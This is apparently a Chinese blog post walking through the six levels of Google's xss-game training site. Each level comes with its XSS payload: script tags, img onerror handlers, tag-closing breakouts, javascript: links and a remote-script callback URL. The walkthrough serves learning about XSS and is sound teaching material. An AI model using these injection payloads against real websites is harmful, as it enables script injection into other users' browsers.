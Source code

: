 ```yaml
---
title: 一个模拟 XSS 攻击的小游戏
tags:
  - XSS
  - HTTP
categories:
  - HTTP
date: 2017-09-24 16:52:28
---
```

# 一个模拟 XSS 攻击的小游戏

>游戏地址 xss-game : https://xss-game.appspot.com/

>由简到难一共六关，覆盖了绝大多数的 XSS 攻击方法，挺有意思的，玩游戏的同时帮助你学习了解 XSS 攻击原理

### 1. 直接写 `script` 标签

```
<script>alert("xss")<script>
```

### 2. 图片加载失败触发 `onerror` 方法

```
// XSS 注入
<img src = "asd" onerror="alert(1)" >
```

### 3. 强行闭合标签
```
// 在地址栏会显示图片锚点（用拼接 html 方式组合图片）
<img src='123.jpg'>
// http://xxx.xxx.xxx#123

// XSS 强行闭合标签
'><script>alert(1)</script>
```

### 4. 找到页面中 `submit` 方法触发 `onload` 方法的地方

```javascript
// submit 3
onload="startTimer('3');"

// xss 强行闭合
3');alert('1
```

### 5. 寻找 `a` 标签跳转 观察地址栏 串改 href 触发 javascript

```
// normal
// https://xss-game.appspot.com/level5/frame/signup?next=confirm
<a href = "confirm" >

// xss
// 修改 ==> https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert(1) ==> 转到
// 然后 a 标签自动串改
<a href = "javascript:alert(1)" >
```

### 6. 修改 query 参数

- 查看 query string 参数 
- 分析 html 中的 javascript 代码 
- 自己做一个 js xss 攻击文件，放在自己服务器
-  替换 query 参数指向自己的攻击文件

```javascript
// https://xss-game.appspot.com/level6/frame#/static/gadget.js
// 下面是当前页面中的某条源码
if (url.match(/^https?:\/\//)) {

// xss
// 查看提示 google 提供一个 api 
// google.com/jsapi?callback=foo
// 拉到最后发现执行了一个 foo() 
// 替换成 xss 攻击函数
// google.com/jsapi?callback=alert("xss")
// 替换原始 url 
// https://xss-game.appspot.com/level6/frame#//google.com/jsapi?callback=alert("xss")
```

### 最后是通关奖励

![@通关奖励 - 一张破图 | center | 0 ](https://ws1.sinaimg.cn/large/889b2f7fgy1fjuqr9gmubj21hc0qd77d.jpg)